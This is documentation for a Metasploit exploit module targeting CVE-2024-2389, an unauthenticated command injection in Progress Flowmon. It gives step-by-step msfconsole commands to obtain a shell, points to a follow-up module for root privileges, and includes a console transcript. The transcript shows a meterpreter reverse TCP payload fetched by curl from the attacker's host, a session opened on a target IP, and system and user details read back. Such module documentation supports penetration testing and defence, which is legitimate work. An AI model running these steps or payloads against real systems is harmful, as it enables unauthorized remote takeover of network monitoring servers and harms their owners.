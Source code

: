 ## Vulnerable Application
CVE-2024-2389: Progress Flowmon Unauthenticated Command Injection

For more details on the vulnerability:
https://rhinosecuritylabs.com/research/cve-2024-2389-in-progress-flowmon/

https://support.kemptechnologies.com/hc/en-us/articles/24878235038733-CVE-2024-2389-Flowmon-critical-security-vulnerability

This application is available in cloud marketplaces:
- https://portal.azure.com/#view/Microsoft_Azure_Marketplace/GalleryItemDetailsBladeNopdl/id/progresssoftwarecorporation.flowmon
- https://aws.amazon.com/marketplace/pp/prodview-6phnrhkekuzka
- https://console.cloud.google.com/marketplace/product/flowmon-public/flowmon-collector-for-google-cloud


## Verification Steps
1. Install the application
1. Start msfconsole
1. Do: `use exploits/linux/http/progress_flowmon_unauth_cmd_injection`
1. Do: `set RHOSTS <target flowmon>`
1. Do: `set RPORT <port flowmon is running on>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a shell as the `flowmon` user.
1. (Optional) use the module `exploit/linux/local/progress_flowmon_sudo_privesc_2024` to gain root privileges.

## Scenarios

### Progress Flowmon 12.2

```
msf6 exploit(linux/http/progress_flowmon_unauth_cmd_injection) > show options

Module options (exploit/linux/http/progress_flowmon_unauth_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PRIVESC    true             yes       Automatically try privesc to add sudo entry
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.174.209.101  yes       The target host(s), see https://docs.metasploit.com/docs/using-meta sploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI path to Flowmon
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP
                                                  , WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      TkHAXYbQwlH      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain space
                                                  s
   LHOST               138.111.211.11   yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/flowmon_unauth_cmd_injection) > run

[*] Started reverse TCP handler on 138.111.211.11:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 172.174.209.101:443 can be exploited!
[*] Detected version: 12.02.06
[+] The target is vulnerable. Version 12.02.06 is vulnerable.
[*] Attempting to execute payload...
[*] Meterpreter session 1 opened (138.111.211.11:4444 -> 172.174.209.101:48856) at 2024-05-01 15:22:24 +0000

meterpreter > sysinfo
Computer     : flowmon.my3m4o21xjze5fomtxp5e53h2h.bx.internal.cloudapp.net
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.76.1.el7.flowmon.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: flowmon
```
